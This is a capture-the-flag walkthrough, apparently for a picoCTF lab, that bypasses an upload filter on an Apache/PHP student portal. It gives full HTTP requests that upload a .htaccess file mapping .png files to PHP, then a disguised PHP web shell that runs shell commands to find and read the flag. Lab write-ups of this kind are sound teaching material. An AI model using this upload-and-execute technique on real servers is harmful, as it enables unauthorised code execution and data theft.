## Tools Utilized

To execute the assessment methodology, specific utilities and toolkits are leveraged:

| Tool | Version / Reference | Purpose |
| :--- | :--- | :--- |
| **Burp Suite** | Community Edition | HTTP request interception, replay, and modification via Repeater |
| **Web Browser** | - | Initial application interaction and upload response validation |
| **PHP** | Server-side (Apache) | Crafting payloads for remote code execution via uploaded `.png` files |
| **.htaccess** | Apache directive | Remapping `.png` files to be processed as PHP by the Apache handler |

---

## Challenge Setup & Context

To begin, access the CyLab platform and launch the instance for the challenge. The description sets the scene:

>_"A university's online registration portal asks students to upload their ID cards for verification. The developer put some filters in place to ensure only image files are uploaded but are they enough? Take a look at how the upload is implemented. Maybe there's a way to slip past the checks and interact with the server in ways you shouldn't."_



The objective is an active web server running Apache with PHP, accessible via the provided instance URL. The goal is to bypass file upload validation, execute arbitrary PHP code on the server, and retrieve the flag stored on the file system.

---

## 1. Initial Reconnaissance & Application Interaction

Once the instance is running, the first step is to interact with the active web application. The portal presents a simple upload form that requests an image of the student's ID card.



Testing began with the upload functionality directly through the browser to understand the server's behavior. I created a simple file named `test.txt` containing the text "hola" and tried to upload it using the form. The server responded with a clear error message: "Not allowed!", confirming that the server blocks certain file extensions.



Next, I created a file named `test.png` using a text editor and wrote "hello" inside it; it contained no actual image data, just plain text. I submitted this file via the form, and the server accepted it without issue. The response included a success message and a link to the uploaded file:


---
## 2. Intercepting with Burp Suite

After confirming the weak validation manually, I launched **[Burp Suite](https://portswigger.net/burp)** to intercept and analyse the HTTP requests. I repeated the same uploads of test.txt and test.png, this time capturing the full requests.





The request for `test.txt` shows the `Content-Type: text/plain` and the server responding with "Not allowed!". The request for `test.png` shows `Content-Type: image/png` and a successful upload. This confirms that the server relies solely on the `filename` and `Content-Type` headers for validation.

---

## 3. Researching the Exploitation Vector

After confirming the weak validation, the next logical question was: _how can I make the server execute PHP code through an uploaded file?_. The response headers revealed the server was Apache, and a challenge hint mentioned that Apache can be tricked into executing non-PHP files as PHP with a `.htaccess` file. 

To understand the exact method, I searched online for terms like _"Apache .htaccess PNG PHP execution"_ and found the **[Payloads All The Things](https://swisskyrepo.github.io/PayloadsAllTheThings/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess/)** repository, which explains that uploading a `.htaccess` file with the directive `AddType application/x-httpd-php .png` (or `AddHandler`) forces Apache to treat any `.png` file in that directory as a PHP script. This technique works because `.htaccess` configurations apply to the same directory where the file is uploaded and its sub‑directories, matching our scenario perfectly.

---

## 4. Exploitation with .htaccess

With the attack vector identified, I took the previously intercepted request (the one used to upload `test.png` with "hola") and sent it to **Burp Suite's Repeater**. From there, I modified the same request multiple times, changing only the `filename` and the file content; the `Content-Type` did not matter, as the server only checked the extension and the file name.

### Step 1: Upload `.htaccess` to map `.png` to PHP

In Repeater, I changed:
- `filename=".htaccess"`
- Content to `AddType application/x-httpd-php .png`

**Request:**
```http
POST /upload.php HTTP/1.1
Host: amiable-citadel.picoctf.net:XXXXX
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary2BTwP7g4NnlENwmO

------WebKitFormBoundary2BTwP7g4NnlENwmO
Content-Disposition: form-data; name="image"; filename=".htaccess"
AddType application/x-httpd-php .png
------WebKitFormBoundary2BTwP7g4NnlENwmO--
```



### Step 2: Confirm PHP execution with a simple test

Using the same request in Repeater, I changed:
- `filename="test.png"`
- Content to `<?php echo "PHP funciona"; ?>`

**Request:**
```http
POST /upload.php HTTP/1.1
Host: amiable-citadel.picoctf.net:XXXXX
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary2BTwP7g4NnlENwmO

------WebKitFormBoundary2BTwP7g4NnlENwmO
Content-Disposition: form-data; name="image"; filename="test.png"
<?php echo "PHP funciona"; ?>
------WebKitFormBoundary2BTwP7g4NnlENwmO--
```



Visiting `http://amiable-citadel.picoctf.net:XXXXX/images/test.png` returned `"PHP funciona"`, confirming code execution.



### Step 3: Upload payload to find and read the flag

Finally, I modified the same request with:
- `filename="find.png"`
- Content to a PHP script that searches for `flag.txt` using `find` and reads its content:

**Request:**
```http
POST /upload.php HTTP/1.1
Host: amiable-citadel.picoctf.net:XXXXX
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary2BTwP7g4NnlENwmO

------WebKitFormBoundary2BTwP7g4NnlENwmO
Content-Disposition: form-data; name="image"; filename="find.png"

<?php
$output = shell_exec('find / -name "flag.txt" 2>/dev/null');
echo "<pre>$output</pre>";
if ($output) {
    $flag = file_get_contents(trim($output));
    echo "$flag";
}
?>
------WebKitFormBoundary2BTwP7g4NnlENwmO--
```


Accessing `http://amiable-citadel.picoctf.net:XXXXX/images/find.png` executed the script and displayed:



---

## 5. Solve Chain Summary



